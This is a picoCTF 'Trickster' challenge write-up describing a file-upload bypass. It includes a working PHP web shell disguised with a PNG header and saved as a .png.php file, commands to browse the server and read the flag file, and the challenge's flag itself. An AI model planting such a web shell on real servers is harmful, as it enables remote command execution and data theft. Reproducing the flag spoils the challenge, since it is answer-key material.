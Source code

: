 # Challenge "Trickster" Writeup

## Vulnerability: File Upload and Directory Traversal

### Where: Insecure file upload validation and directory traversal led to accessing sensitive files.

### Impact: The challenge involved bypassing file upload restrictions to execute arbitrary commands on the server and retrieving sensitive files by exploring directories.

**NOTE**: The challenge tested the ability to bypass file type restrictions, upload a PHP shell disguised as a PNG, and explore the server's file structure to find the flag.

## Steps to reproduce:

1. **Check the `robots.txt` file:**
   I first examined the `robots.txt` file by navigating to `/robots.txt` and found the following:
```
    User-agent: * Disallow: /instructions.txt Disallow: /uploads/
```
   I visited the `/instructions.txt` file and found instructions on how the web app processes PNG images.

2. **Bypass the file upload restriction:**
I crafted a PHP web shell disguised as a `.png.php` file with a valid PNG header to bypass the PNG file upload validation and uploaded it through the web app.
```
echo -e '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A<?php if(isset($_GET["cmd"])){ $cmd=$_GET["cmd"]; echo "<pre>".shell_exec($cmd)."</pre>"; } ?><form method="GET"><input type="text" name="cmd" placeholder="Enter Shell Command"><button type="submit">Run Command</button></form>' > exploit3.png.php

```

3. **Access the uploaded shell:**
After uploading the shell, I accessed the file and used it to run shell commands. I first used the following command to list the contents of the parent directory:
```
ls -R $(pwd)/..
```
This revealed several interesting files, including `MQZWCYZWGI2WE.txt`.

4. **Retrieve the flag:**
I used the `cat` command to display the contents of the `MQZWCYZWGI2WE.txt` file:
```
cat ../MQZWCYZWGI2WE.txt
```
Inside the file, I found the flag:
```
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_d3ac625b}
```

## Conclusion:

By bypassing the file upload validation using a PHP web shell disguised as a PNG file, I was able to explore the file system and retrieve the flag, completing the challenge.


